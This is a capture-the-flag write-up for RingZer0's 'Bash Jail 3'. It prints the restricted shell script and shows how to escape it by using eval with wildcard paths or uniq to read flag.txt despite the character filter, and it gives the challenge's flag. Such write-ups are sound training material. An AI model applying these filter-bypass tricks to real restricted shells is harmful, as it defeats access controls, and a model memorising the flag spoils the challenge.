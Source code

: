 # Bash Jail 3

## Challenge Details 

- **CTF:** RingZer0
- **Category:** Jail Escaping
- **Points:** 3

## Provided Materials

- SSH Credentials

## Solution

Challenge bash code:

```sh
WARNING: this prompt is launched using ./prompt.sh 2>/dev/null

function check_space {
	if [[ $1 == *[bdksc]* ]]
	then 	
    		return 0
	fi

	return 1
}

while :
do
	echo "Your input:"
	read input
	if check_space "$input" 
	then
		echo -e '\033[0;31mRestricted characters has been used\033[0m'
	else
		output=`$input` &>/dev/null
		echo "Command executed"
	fi
done 
```

Standart output and error streams are closed *(`&>/dev/null`)*, so we can use standart input stream *(`>&0`)*. We will also use [eval](https://unix.stackexchange.com/questions/23111/what-is-the-eval-command-in-bash) to execute arguments as a shell command. We can't execute `cat` command directly, but we can use wildcards to call the command:

```sh
Your input:
eval /?in/?at flag.txt >&0
FLAG-s9wXyc9WKx1X6N9G68fCR0M78sx09D3j
```

Or we can use [uniq](https://man7.org/linux/man-pages/man1/uniq.1.html): 

```sh
Your input:
eval uniq flag.txt >&0
FLAG-s9wXyc9WKx1X6N9G68fCR0M78sx09D3j
```


## Final Flag

`FLAG-s9wXyc9WKx1X6N9G68fCR0M78sx09D3j`

*Created by [bu19akov](https://github.com/bu19akov)*